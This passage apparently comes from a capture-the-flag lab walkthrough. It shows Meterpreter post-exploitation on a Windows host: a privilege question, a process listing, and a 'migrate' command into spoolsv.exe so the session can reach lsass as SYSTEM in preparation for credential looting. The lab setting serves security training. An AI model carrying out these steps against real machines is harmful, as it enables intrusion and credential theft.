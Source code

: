 13. What privilege allows us to take ownership of files?

```
SeTakeOwnershipPrivilege
```

## Stage 3: Looting

1. Lets take a look at the processes to see if our shell is has escalated. We do this with 'ps'

```
  C:\Windows\System32\services.exe
 700   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 708   592   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 816   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 884   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 904   816   slui.exe              x64   1        Dark-PC\Dark                  C:\Windows\System32\slui.exe
 932   692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1020  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1040  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1136  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1260  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1308  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1316  2268  cmd.exe               x86   1        Dark-PC\Dark                  C:\Windows\SysWOW64\cmd.exe
 1400  692   taskhost.exe          x64   1        Dark-PC\Dark                

```

2. We need to interact with the lsass service and since it is running as NT AUTHORITY\SYSTEM, we will migrate to 
another service with the same privilege. 

We see the printer service "spoolsv.exe" and we will migrate into this process.

```
migrate 1260 <- This is the Process ID or PID associated with spoolsv.exe
```
```
meterpreter > migrate 1260
[*] Migrating from 2356 to 1260...
[*] Migration completed successfully.
meterpreter > 
```
